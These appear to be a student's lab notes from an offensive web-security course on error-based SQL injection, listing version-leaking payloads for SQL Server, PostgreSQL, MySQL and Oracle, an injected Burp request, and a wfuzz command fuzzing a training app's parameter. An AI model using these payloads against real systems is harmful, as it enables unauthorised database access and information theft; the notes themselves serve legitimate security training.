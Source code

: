 (NetSPI, 2019), [https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/exploiting-sql-injection-31322/error-based-payloads-31032#fnref-local_id_68-8)

##### Labs

Prepare for the next exercises by recreating the error-based payloads in this section for each database type in the SQL Sandbox application.
1. `SQL Server`
2. `OS{errorBasedSQLi}`
![[Pasted image 20240820211550.png]]
SQL Payloads:

**SQL Server == MSSQL**
```sql
cast(@@version as integer)
```
POSTgres
```sql
cast(version() as integer)
```
A sample extractvalue() call for MySQL error-based SQL injection
```sql
extractvalue('',concat('>',version()))
```
Oracle
```sql
to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))
```

SQL Server testing
`cast(@@version as integer)`
![[Pasted image 20240820162840.png]]
MySQL? `cast(@@version as integer)'`
![[Pasted image 20240820163031.png]]
If we look at the `BURP` request there are `4` input variables that exist - the `instock` field
- from this error we know that it is `MSSQL` SQL SERVER
![[Pasted image 20240820174424.png]]
send to `repeater`
```html
inStock=1&name=cast%28%40%40version+as+integer%29%27&sort=id&order=asc
```
we should fuzz the `inStock` parameter
```bash
┌──(root💀gobots)-[20Aug2024 20:13:28]-[/home/kali]                                                                                                                                            
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "inStock=FUZZ&name=cast%28%40%40version+as+integer%29%27&sort=id&order=asc" -u http://sql-sandbox/exploit/api/error      
********************************************************                                                                                         
* Wfuzz 3.1.0 - The Web Fuzzer                         *                                                                                                           
********************************************************                                                                                                           
Target: http://sql-sandbox/exploit/api/error                                                                                                          
Total requests: 125                                                                                                                                                
=====================================================================                                                                                              
ID           Response   Lines    Word       Chars       Payload                                                                                                    
=====================================================================                                                                                            
```